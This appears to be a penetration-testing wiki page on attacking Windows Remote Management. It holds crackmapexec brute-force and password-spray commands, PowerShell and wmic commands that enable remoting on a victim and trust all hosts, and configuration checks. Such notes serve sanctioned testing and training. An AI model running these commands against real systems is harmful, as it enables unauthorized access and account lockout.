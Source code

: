 ```yaml
---
description: Ports TCP 5985,5986
---
```


# WinRM

## Theory

Windows Remote Management (WinRM) is a Microsoft protocol that **allows remote management of Windows machines** over HTTP(S) using SOAP. On the backend it's utilising WMI, so you can think of it as an HTTP based API for WMI.\
If WinRM is enabled on the machine, it's trivial to remotely administer the machine from PowerShell. In fact, you can just drop in to a remote PowerShell session on the machine (as if you were using SSH!)\
The easiest way to detect whether WinRM is available is by seeing if the port is opened. WinRM will listen on one of two ports: **5985/tcp (HTTP) or 5986/tcp (HTTPS)**

## **Practice**

### Targeting Accounts

{% tabs %}
{% tab title="Bruteforce" %}
Be careful, brute-forcing winrm could block users.

```bash
crackmapexec winrm <IP> -d <Domain Name> -u <userlist> -p <passwlist>
```
{% endtab %}

{% tab title="Password Spray" %}
We can use following command to password spray

```bash
crackmapexec winrm <IP> -d <Domain Name> -u <userlist> -p 'Passw0rd!'
```
{% endtab %}
{% endtabs %}

### Enable WinRM

Most Windows Server installations will have WinRM enabled by default, making it an attractive attack vector. However, for instances where this is not the case, we can enable it using powershell

{% tabs %}
{% tab title="Enable WinRM" %}
If we have access to an **elevated PowerShell** prompt on the victim, we cam enable it and add any "attackers" as trusted hosts. We can run the following two commands

```powershell
Enable-PSRemoting -Force
Set-Item wsman:\localhost\client\trustedhosts *
```

We can also **activate** WinRM **remotely** using wmic

```powershell
wmic /node:<REMOTE_HOST> process call create "powershell enable-psremoting -force"
```
{% endtab %}

{% tab title="Check configuration" %}
use the `Test-WSMan` function to test whether the target is configured for WinRM. You should see some information returned about the protocol version and wsmid:

```powershell
#Check locally
Test-WSMan

#Check remotely
Test-WSMan -ComputerName <TARGET>
```
{% endtab %}
{% endtabs %}

### Execute Remote Commands

{% content-ref url="../../pivoting/winrm.md" %}
[winrm.md](../../pivoting/winrm.md)
{% endcontent-ref %}

## **Resources**

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm" %}
